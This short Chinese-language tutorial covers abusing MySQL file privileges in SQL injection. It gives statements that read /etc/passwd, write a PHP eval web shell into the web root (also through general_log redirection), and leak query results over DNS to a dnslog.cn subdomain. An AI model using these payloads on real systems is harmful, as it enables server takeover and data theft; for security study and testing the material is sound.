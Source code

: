 # 文件读写

## 读写权限

在进行MySQL文件读写操作之前要先查看是否拥有权限，mysql文件权限存放于mysql表的file_priv字段，对应不同的User，如果可以读写，则数据库记录为Y，反之为N：

我们可以通过user()查看当前用户是什么，如果对应用户具有读写权限，则往下看，反之则放弃这条路找其他的方法。

除了要查看用户权限，还有一个地方要查看，即**secure-file-priv**。它是一个系统变量，用于限制读写功能，它的值有三种：

（1）无内容，即无限制

（2）为NULL，表示禁止文件读写

（3）为目录名，表示仅能在此目录下读写

该配置项存放在`my.ini`中，修改之后必须重启mysql重新加载配置文件

## 读文件

如果满足上述2个条件，则可尝试读写文件了。

常用的读文件的语句有如下几种：

```
select load_file(file_path);
load data infile "/etc/passwd" into table 库里存在的表名 FIELDS TERMINATED BY 'n'; #读取服务端文件
load data local infile "/etc/passwd" into table 库里存在的表名 FIELDS TERMINATED BY 'n'; #读取客户端文件
```

需要注意的是，file_path必须为绝对路径，且反斜杠需要转义：

## 写文件

```
select 1,"<?php eval($_POST['cmd']);?>" into outfile '/var/www/html/1.php';
select 2,"<?php eval($_POST['cmd']);?>" into dumpfile '/var/www/html/1.php';
```

当secure_file_priv值为NULL时，可用生成日志的方法绕过：

```
set global general_log_file = '/var/www/html/1.php';
set global general_log = on;
```

日志除了general_log还有其他许多日志，实际场景中需要有足够的写入日志的权限，且需要堆叠注入的条件方可采用该方法，因此利用非常困难。

## DNS外带注入

若用户访问DNS服务器，则会在DNS日志中留下记录。如果请求中带有SQL查询的信息，则信息可被带出到DNS记录中。

利用条件：

1.secure_file_priv为空且有文件读取权限

2.目标为windows（利用了UNC，Linux不可行）

3.无回显且无法时间盲注

利用方法：

可以找一个免费的DNSlog：http://dnslog.cn/

进入后可获取一个子域名，执行：

```
select load_file(concat('\\',(select database()),'.子域名.dnslog.cn'));
```

相当于访问了select database().子域名.dnslog.cn，于是会留下DNSLOG记录，可从这些记录中查看SQL返回的信息。
